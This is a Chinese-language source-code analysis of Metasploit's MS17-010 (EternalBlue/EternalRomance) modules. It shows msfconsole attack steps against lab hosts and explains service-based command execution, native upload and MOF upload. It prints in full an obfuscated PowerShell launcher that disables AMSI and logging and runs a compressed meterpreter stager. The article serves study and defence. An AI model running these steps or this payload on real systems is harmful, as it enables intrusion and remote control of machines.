

# MSF中MS17-010利用模块源码分析 - 先知社区

MSF中MS17-010利用模块源码分析

* * *

ms17-010 相关模块如下，auxiliary 为漏洞扫描验证模块，exploit 为漏洞利用攻击模块

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233031-6bd66550-7cb9-1.png)

## auxiliary smb\_ms17\_010

auxiliary/scanner/smb/smb\_ms17\_010 模块

> SMB RCE Detection

支持：<= Windows Server 2012、32/64位系统

### 漏洞检测

环境：Windows Server 2012 R2、192.168.1.9

使用模块

```plain
msf6 > use auxiliary/scanner/smb/smb_ms17_010
```

查看模块默认配置

```plain
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options
```

*   CHECK\_ARCH/DOPU/PIPE，是否检查目标主机架构、DOPU后门、命名管道
*   RHOSTS，远程目标IP-默认为空，需设置
*   RPORT，远程SMB共享端口-默认445
*   SMBUser、SMBPass，SMB认证用户名/密码，默认为空-采用匿名访问
*   THREADS，线程大小-默认位1

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233107-8152e89a-7cb9-1.png)

设置远程目标IP

```plain
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.15
```

攻击

```plain
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233209-a6129f7c-7cb9-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/smb/smb\_ms17\_010.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/smb/smb_ms17_010.rb)

本地，/usr/share/metasploit-framework/modules/auxiliary/scanner/smb/smb\_ms17\_010.rb

*   run\_host 函数，检测入口

通过调用 do\_smb\_ms17\_010\_probe 函数，向目标主机发送 PeekNamedPipe 请求，判断响应包是否包含 `STATUS_INSUFF_SERVER_RESOURCES (0xc0000205)`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233241-b954e504-7cb9-1.png)

## auxiliary ms17\_010\_command

auxiliary/admin/smb/ms17\_010\_command 模块，以命令执行的方式验证漏洞

> EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution

攻击：创建服务执行命令、共享读取执行结果、痕迹清理

支持：<= Windows Server 2012、32/64位系统

### 攻击测试

环境：Windows Server 2012 R2、192.168.1.9

使用模块

```plain
msf6 > use auxiliary/admin/smb/ms17_010_command
```

查看模块默认配置

```plain
msf6 auxiliary(admin/smb/ms17_010_command) > show options
```

*   RHOSTS，远程目标IP-默认为空，需设置
*   RPORT，远程SMB共享端口-默认445
*   COMMAND，执行的验证命令-默认为 `net group "Domain Admins" /domain`
*   SERVICE\_NAME，服务名-默认随机8位字母字符串
*   SERVICE\_DISPLAY\_NAME，服务展示名-默认随机16位字母字符串
*   SERVICE\_DESCRIPTION，服务描述-默认为空
*   SMBUser、SMBPass，SMB认证用户名/密码，默认为空-采用匿名访问
*   SMBSHARE，目标共享-默认为 `C$`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233331-d7371bbe-7cb9-1.png)

设置远程目标IP

```plain
msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.1.9
```

攻击

```plain
msf6 auxiliary(admin/smb/ms17_010_command) > run
or
msf6 auxiliary(admin/smb/ms17_010_command) > exploit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233404-eacb088e-7cb9-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/ms17\_010\_command.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/ms17_010_command.rb)

本地，/usr/share/metasploit-framework/modules/auxiliary/admin/smb/ms17\_010\_command.rb

*   run\_host 函数，攻击入口，首先调用 eternal\_pwn 函数获取 system 权限的会话，然后调用 smb\_pwn 函数进行命令执行

modules/auxiliary/admin/smb/ms17\_010\_command.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233446-03f09f86-7cba-1.png)

*   eternal\_pwn 函数，获取 system 权限会话

lib/msf/core/exploit/remote/smb/client/psexec\_ms17\_010.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233534-205ef690-7cba-1.png)

fingerprint\_os 函数，检查目标系统版本，赋值 `@ctx['go_fish']`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233549-2945815c-7cba-1.png)

find\_accessible\_named\_pipe 检查目标系统可用的命名管道，然后判断 `@ctx['go_fish']` 的值，选择不同的 exploit

*   smb\_pwn 函数，命令执行入口

modules/auxiliary/admin/smb/ms17\_010\_command.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233628-4074a420-7cba-1.png)

设置txt、bat、smbshare、ip，其中txt、bat 路径默认为 `\\*\C$\WINDOWS\Temp\随机16位字母字符串.txt` 、 `\\*\C$\WINDOWS\Temp\随机16位字母字符串.bat` ，相关选项取值如下

modules/auxiliary/admin/smb/ms17\_010\_command.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233714-5bbe9768-7cba-1.png)

调用 execute\_command\_with\_output 函数执行命令获取结果

*   execute\_command\_with\_output 函数，命令执行、执行结果读取、清除批处理文件

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233725-62b5b86c-7cba-1.png)

*   execute\_command 函数，命令执行

构造命令 execute（%COMSPEC%为C:\\Windows\\system32\\cmd.exe，echo：构造新命令-攻击者传入的命令+重定向到txt文件，将新命令重定向保存在bat文件、&符号：执行bat文件），将execute传入psexec函数进行执行

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233801-77ca019a-7cba-1.png)

psexec 函数，通过命名管道svcctl远程RPC调用进行创建服务、启动服务、删除服务来达到命令执行的效果

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233842-906ff8c6-7cba-1.png)

createservicew 函数创建服务，其中服务执行的程序命令为psexec函数中的command参数，而服务名、服务展示名取值如下

首先，在 initialize 函数中，假如用户未指定 SERVICE\_NAME、SERVICE\_DISPLAY\_NAME 选项值，则默认 SERVICE\_NAME、SERVICE\_DISPLAY\_NAME 选项值为空。

然后，在 service\_name、display\_name 函数中，如果相应选项值为空，则进行随机字符串赋值，其中service\_name为随机8位字母字符串、display\_name为随机16位字母字符串

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233854-97d60678-7cba-1.png)

创建完服务后，开始启动服务以执行攻击者输入的命令，最后删除服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233908-a03d489e-7cba-1.png)

execute\_command\_with\_output 函数调用 execute\_command 函数操作服务执行完命令后，将调用 get\_output 函数，通过SMB共享读取命令执行结果重定向的文件

*   get\_output 函数，读取SMB共享文件

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233921-a7f6385c-7cba-1.png)

最后调用 cleanup\_after 函数删除命令执行中服务运行程序里面的 bat 批处理文件

*   cleanup\_after 函数，删除SMB共享文件

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233935-afdbf6ce-7cba-1.png)

注意：这里仅删除了服务运行程序中的bat文件，未删除命令执行结果重定向的文件，导致漏洞检测执行命令后，目标相应目录仍存在攻击者命令执行结果的重定向文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233943-b520d550-7cba-1.png)

通过以上分析可知，调用 smb\_pwn 函数后的利用过程为：构造服务程序命令、创建服务、启动服务、删除服务、SMB读取服务程序执行结果、SMB删除服务启动后的bat批处理文件。

## exploit ms17\_010\_psexec

exploit/windows/smb/ms17\_010\_psexec 模块，执行 payload 上线进行漏洞攻击

> EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

攻击：Automatic/PowerShell/Native upload/MOF upload

支持：<= Windows Server 2012、32/64位系统

### 攻击测试

环境：Windows Server 2012 R2、192.168.1.9

使用模块

```plain
msf6 > use exploit/windows/smb/ms17_010_psexec
```

查看模块默认配置

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > show options
```

*   RHOSTS，远程目标IP-默认为空，需设置
*   RPORT，远程SMB共享端口-默认445
*   SERVICE\_NAME，服务名-默认随机8位字母字符串
*   SERVICE\_DISPLAY\_NAME，服务展示名-默认随机16位字母字符串
*   SERVICE\_DESCRIPTION，服务描述-默认为空
*   SMBUser、SMBPass，SMB认证用户名/密码，默认为空-采用匿名访问
*   SMBSHARE，目标共享-默认为 `ADMIN$`
*   Payload，反连信息-默认为 `windows/meterpreter/reverse_tcp`、`IP:4444`
*   Target，攻击目标的额外配置-默认 Automatic

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234014-c7388378-7cba-1.png)

设置远程目标IP

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 192.168.1.9
```

查看攻击目标模式

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234136-f81df7a2-7cba-1.png)

攻击

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > run
or
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```

Automatic

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234023-ccfb4098-7cba-1.png)

Native upload

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234039-d666ed62-7cba-1.png)

MOF Upload

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234050-dcc66b56-7cba-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17\_010\_psexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17_010_psexec.rb)

本地，/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17\_010\_psexec.rb

*   exploit 函数，攻击入口，首先调用 eternal\_pwn 函数获取 system 权限的会话，然后调用 smb\_pwn 函数进行payload执行上线

modules/exploits/windows/smb/ms17\_010\_psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234112-ea1d4054-7cba-1.png)

*   eternal\_pwn 函数，获取 system 权限会话

同上面 `auxiliary ms17_010_command` 模块中的 eternal\_pwn 函数调用分析一样，检查目标系统版本，检查目标系统可用的命名管道，然后判断 `@ctx['go_fish']` 的值，选择不同的 exploit

*   smb\_pwn 函数，payload执行入口

modules/exploits/windows/smb/ms17\_010\_psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234126-f282a860-7cba-1.png)

case when 语句根据 target.name 的值选择不同的操作，而 target 配置默认取值为 `Automatic` ，攻击者也可选择其他配置

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234136-f81df7a2-7cba-1.png)

**1）当 target 默认为 Automatic 模式时**

如果 `powershell_installed` 方法返回`true`，则调用`execute_powershell_payload`方法；否则，调用`native_upload`方法

先来分析 powershell\_installed 函数分支，其函数调用传入的参数 `datastore['SHARE'], datastore['PSH_PATH']` 取值如下

SHARE 默认为 `ADMIN$` 共享、PSH\_PATH 默认为 `Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234146-fddee5a2-7cba-1.png)

*   powershell\_installed 函数，判断目标系统的 powershell 安装信息

根据配置的目标 SMB 共享情况，选择 powershell 路径，然后调用 smb\_file\_exist 函数判断目标系统 powershell 文件是否存在

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234155-03aa7fe6-7cbb-1.png)

如果 powershell\_installed 函数返回 true，则调用 execute\_powershell\_payload 函数进行 powershell payload 执行

*   execute\_powershell\_payload 函数

通过 cmd\_psh\_payload 函数获取 cmd 执行的 powershell payload，然后将执行的命令传入 psexec 函数进行执行

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234204-08b776e2-7cbb-1.png)

cmd 执行的 powershell payload 如下

```plain
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c  $yh=[Collections.Generic.Dictionary[string,System.Object]]::new();If($PSVersionTable.PSVersion.Major -ge 3){ $u0=((''''+''{1}''+''c{0}ipt{2}lock''+''Logg''+''ing'')-f''r'',''S'',''B''); $ov=[Ref].Assembly.GetType(((''{2}{4}st''+''em.{0}''+''a''+''nag''+''ement.{3}''+''utomation.{1''+''}ti''+''{5}s'')-f''M'',''U'',''S'',''A'',''y'',''l'')); $pmnF=((''''+''EnableSc{1}i{0}t{3}l''+''o''+''c''+''{2}''+''Logging'')-f''p'',''r'',''k'',''B''); $crCde=$ov.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); $xI=[Ref].Assembly.GetType(((''''+''{0}''+''{1''+''}''+''st''+''em{9''+''}{4}ana''+''{6}ement''+''{9}{''+''7''+''}''+''{''+''3}t{8}ma''+''ti''+''{8}''+''n{9''+''}{7}msi''+''{''+''5''+''}''+''ti{2}s'')-f''S'',''y'',''l'',''u'',''M'',''U'',''g'',''A'',''o'',''.'')); if ($xI) { $xI.GetField(((''''+''a{0}s''+''i{''+''1}''+''nit{4}''+''a''+''il{3}''+''{2''+''}'')-f''m'',''I'',''d'',''e'',''F''),''NonPublic,Static'').SetValue($null,$true); }; If ($crCde) { $kCnF_=((''{3}nab''+''l{2}''+''{1}cript{4''+''}lock{0''+''}''+''nvocation{5''+''}o''+''gging'')-f''I'',''S'',''e'',''E'',''B'',''L''); $xpL=$crCde.GetValue($null); If($xpL[$u0]){ $xpL[$u0][$kCnF_]=0; $xpL[$u0][$pmnF]=0; } $yh.Add($pmnF,0); $yh.Add($kCnF_,0); $xpL[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$u0]=$yh; } Else { [Ref].Assembly.GetType(((''''+''S{4}''+''stem.''+''{''+''1''+''}an''+''agement.{5}utomation.Sc{2}i{3}''+''tB{0}o''+''ck'')-f''l'',''M'',''r'',''p'',''y'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAOED{1}WUCA71WbW/aSBD+flL/g1Uh2agEG0KbJlKlW5sYSAKYOLwXnTb2Yrasvc{1}e{0}kiv//1mj{1}2IklS9k3qWSPZlZnb2mWdmdr6OPEF5pOBbU3SV7+/+ULLPwTEOFa2wjT6WlMKcseJ+r7BCF8oX{1}Zui1arO{''+''0}0yj2dmZtY5jEondvNwgAiUJCW8ZJYlWVP5Whgs''+''Sk6Pu7TfiCeW7Uvir3GD8FrNMbGthb0GUIxT5cu+Ke1g6VnZXjApN/fpV''+''LU6PKrPy+d0as0{1}T3W0iSFj2GVOLyo+iPPBmuyKa2qZezBM+F+UhjY6r5X6U4''+''DnpgLV70iZi''+''wf1EhbvsbxMTsY6j9FLSyk5GU2H''+''ox''+''NxDvh+TJFFLylTan85mf2rT7PDrdS{1''+''}oSMqtSJCYr1wS31OPJOUmjnxGrsl8BlquiGkUzIpFELvnS6IVojVjJeXfmNE6ZJND96tK2qESSDkiLpYgoC+v2eb+mpGdovqKn5ID{1}fgyHgB4Py{1}+85w7/skrxNkv5N803SHgrubwhKaqXxSjpLThZCx4vIVp4SZek+LsCWylEMZGo/Sr1iq5Kij6Ixs1YG064NSf7S08C36BDKTI20SukzmNSH0b4ZB6OVe11wJC5oykgJ{1}zs{0}44qKnZBvHrhJEAC4mx5MULtfO{0}iiddc02ZT2Lk{0}VAT8AriXXzuzC5smtqK2i{0}E9HZzVUYJMoTk0llWbPPT5{1}yEVIvhJCkpzhpS1CspLsGM+CUF{1}{0}nNttBa8HSo7t1tr5mgHk5Ebm5WfAZmdqjFo0TEaw+iCgDcuCviUcwkHiWlSX1ibl0a5Ierr6JhYcYgccDSPU{0}DVi{0}KrpBcicHPlBfFs''+''ktEK1wxEoJMWjBshgMoD1l6pOTCAfHVV93Mk2DHeIlKDs''+''eBkxBql3F{1}UgY0FlB8JMIpt/6TEy/rDnhjxSSLjJZn19TcCpkAhejxI65IjmY{0}pYDEAsCwYx6aOCGfarsao73Xu9{1}B8I1bEWv7F0taaW3g14Zfvz3/cOX{1}wBEGD9uelTgN''+''+zOim2Djfe4''+''gz7/wyak7qAn3vCU''+''sBzV71DBrC880buS4EgTI71655qK38Jjh1Ju6O04MumkO217dfNxUE2BqrdYcGej4uNY9NpaA3xj0lsjvhHTzcAVjT9owW4lptNj5hXV9O6zakyFr6jV7M{1}/yxP00ruu6furjenuLkMn94/Z2VLnmN00vNGs{1}10+t2hKdI2{1}F5wPb5JdjM0aOPsDBim8uA/MqDCxk2h4lk17''+''fNns920T9xre7+qke6KfDEV6Yw0GVTlaj6wX''+''M7U2zd6kbtZZPHvlkA8A1OMLBNcgEVtVbzEGm/gGZHzo8qeKlyZEJMvbkDjUW45XtMNi''+''/6Vc5GrDOCKOrydbW9crYqaGmwYeNAPVAHAdmD6''+''Pkvv5Y''+''1ysDn/vDj53xXB+M2Ilet3rOYiTvrK9C+XfTrF96k8rG657UTOPOCmnIbqu+ftr/bEZw{0}+c+8HvDk+uHzvYWzu3r+uA9MGbap5E4rgJZ+lb3k6yq7/4o3DtodMCbtxpGG8fJAjPgE7SCPKttHttZeXc4l{1}qatnsiLEkcE{0}Z9FTpvnhGIMe7J5gKdANrartnI3tdvpW69NioqT4LFfc/Jl87OJuAkJFjK/vIVi{0}KxKBkPx4YBDcN4MGppKv363Sy+2mo7ayXZc1J0nuyz1D6YpHNF0/4HxOBlIaDOvYXZW/DB0UsoS1Ald7VCgmhyzg4hzG62p8{0}hggBdBW4/lY+KHVnAxhG5UwpC9t3DPl4{0}w9/MnqzqLeCf/''+''3P27Nd+svtLjDJKO3xeLD9fOOgWvxOBIaYC{1}F0o3ozsnhOvAZFlzEGMx{1}CSYZ598nXdXY''+''ujDrzX0u7xDwaZ3dfWCwAA'')-f''Q'',''R'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```

*   psexec 函数

同上面 `auxiliary ms17_010_command` 模块中的 psexec 函数调用分析一样，通过命名管道svcctl远程RPC调用进行创建服务、启动服务、删除服务来进行 powershell payload 的执行

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106233842-906ff8c6-7cba-1.png)

如果 powershell\_installed 函数返回 false，则调用 native\_upload 函数上传 payload exe 服务程序进行执行，其函数调用传入的参数 `datastore['SHARE'], service_filename, service_encoder` 取值如下

SHARE 默认为 `ADMIN$` 共享、service\_filename 默认为随机8位字母字符串、service\_encoder 默认为空

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234442-674ed86c-7cbb-1.png)

*   native\_upload 函数

通过 SMB 共享向目标系统特定共享目录下（会判断smbshare是否存在子路径）写入 generate\_payload\_exe\_service 函数生成的 payload exe 服务程序，然后将服务程序共享路径传入 psexec 函数进行执行（原理同上）

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234453-6db24cf2-7cbb-1.png)

最后，删除上传的服务程序

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234503-7353cfb4-7cbb-1.png)

**2）当 target 设置为 PowerShell 或 Native upload 模式时**

相当于 Automatic 模式中的两个分支的拆开

**3）当 target 设置为 MOF upload 模式时**

通过调用 mof\_upload 函数进行利用，其函数传入的参数 `datastore['SHARE']` 默认取值为 `ADMIN$`

*   mof\_upload 函数

先通过 SMB 共享，向目标系统 `ADMIN$\\system32\\` 共享目录下写入 generate\_payload\_exe\_service 函数生成的 payload exe 程序（文件名为随机8位字母字符串），然后，再向目标系统 `ADMIN$\\system32\\wbem\\mof\\` 共享目录下写入 generate\_mof 函数生成的 mof 文件（文件名为随机14位字母数字字符串的mofname）。

lib/msf/core/exploit/remote/smb/client/psexec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234512-79244eaa-7cbb-1.png)

*   generate\_mof 函数，生成 mof 文件，mof 文件内，通过操作 WMI 运行特定程序

lib/msf/core/exploit/wbem\_exec.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234521-7e9032be-7cbb-1.png)

目标主机文件落地情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234530-838a1262-7cbb-1.png)

## exploit ms17\_010\_eternalblue

exploit/windows/smb/ms17\_010\_eternalblue 模块

> EternalBlue SMB Remote Windows Kernel Pool Corruption

支持：<= Windows Server 2008，<= Windows 7、64位系统

### 攻击测试

环境：Windows 7 Enter x64、192.168.1.15

使用模块

```plain
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

查看模块默认配置，需设置RHOSTS为远程目标IP，Payload默认为64位的反弹shellcode

*   RHOSTS，远程目标IP-默认为空，需设置
*   RPORT，远程SMB共享端口-默认445
*   SMBUser、SMBPass，SMB认证用户名/密码，默认为空-采用匿名访问
*   VERIFY\_ARCH、VERIFY\_TARGET，验证目标架构、系统
*   Payload，反连信息-默认为 `windows/x64/meterpreter/reverse_tcp`、`IP:4444`
*   Target，攻击目标的额外配置-默认 Automatic Target

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234549-8f0f908a-7cbb-1.png)

设置远程目标IP

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.1.15
```

攻击

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
or
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234559-94dee2d6-7cbb-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17_010_eternalblue.rb)

本地，/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb

*   exploit 函数，攻击入口

首先调用 check 函数进行目标漏洞检测（使用 `auxiliary/scanner/smb/smb_ms17_010` 模块），然后判断目标系统架构（不支持 X86），如果漏洞存在，则根据目标系统版本进行 exploit

modules/exploits/windows/smb/ms17\_010\_eternalblue.rb

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106234612-9cd9ed0a-7cbb-1.png)
